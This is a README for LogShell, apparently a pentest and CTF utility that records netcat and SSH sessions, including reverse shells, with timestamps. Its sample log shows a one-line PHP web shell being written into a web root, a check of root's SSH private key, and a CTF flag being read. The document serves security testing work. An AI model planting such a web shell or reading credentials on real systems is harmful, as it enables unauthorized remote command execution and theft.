 <div align="center">
  <h1>🪵 LogShell 🐚</h1>
  <p><i>Made by <a href="https://www.brunorochamoura.com/about/">BRM</a>.</i></p>
  <br />
</div>

LogShell is bash script for logging network sessions established via netcat or SSH, such as reverse shells.

It ensures you always have a track of every command ran on a target to look back later.

## Features

- Records shell sessions with timestamped logging.
- Support for Ncat and SSH.
- Preserves color information of the recorded shell output.
- Handles backspaces in user input for clean output.
- Supports automatic detection and logging of session initiation.
- Seamless chains with other tools such as proxychains and rlwrap.
- Easy setup and usage.

## Usage

1. Clone the repository:
```bash
git clone https://github.com/BrunoRochaDev/LogShell.git
```

2. Navigate to the cloned directory:
```bash
cd LogShell
```

3. Make the script executable:
```bash
chmod +x logshell
```

4. (Optional) Move the script to a directory within your $PATH for easier access:
```bash
mv ./logshell /usr/bin
```

5. Run the script with your SSH / netcat command:
```bash
# Initiating SSH session logging
logshell ssh user@127.0.0.1

# Recording a reverse shell with Ncat and rlwrap
logshell rlwrap ncat -lnvp 1337
```

6. View the logs in /tmp/\<target\>.log (log location can be customized within the script):
```
┌──(user㉿kali)-[~]
└─$ cat /tmp/127.0.0.1.log
=============================================================
Shell session via SSH initiated at: 2024-05-30 19:48:41
=============================================================
(19:48:47) $ whoami
(19:48:47) user
(19:49:20) $ ip a
(19:49:20) eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
(19:49:20)         inet 192.168.1.10  netmask 255.255.255.0  broadcast 192.168.1.255
(19:49:20)         inet6 fe80::f816:3eff:fe21:57cf  prefixlen 64  scopeid 0x20<link>
(19:49:20)         ether f8:16:3e:21:57:cf  txqueuelen 1000  (Ethernet)
(19:49:20)         RX packets 150234  bytes 20345763 (19.4 MiB)
(19:49:20)         RX errors 0  dropped 0  overruns 0  frame 0
(19:49:20)         TX packets 134567  bytes 18320456 (17.4 MiB)
(19:49:20)         TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
(19:49:50) $ echo '<?=`$_GET[1]`?>' > /var/www/html/web-shell.php
(19:51:03) exit
=============================================================
Shell session via Ncat initiated at: 2024-05-30 19:53:50
=============================================================
(19:54:01) # id
(19:54:01) uid=0(root) gid=0(root) groups=0(root)
(19:56:45) # ls -la .ssh/id_rsa
(19:56:45) -rw-------. 1 root root 0 Nov 20  2023 .ssh/id_rsa
(19:57:44) # cat flag.txt
(19:57:44) FLAG{y0u_607_m3!}
```

## Future Work

- **Expand Compatibility:** Support additional clients and listeners like `socat` and `nc`.

- **Improve Command/Output Differentiation:** Enhance clarity between user input and listener output for better log readability.

- **Enhance TTY Formatting:** Implement better formatting to handle full TTY without artifacts.

## License
This project is licensed under the AGPLv3 License - see the [LICENSE](https://github.com/BrunoRochaDev/LogShell/blob/main/LICENSE) file for details.
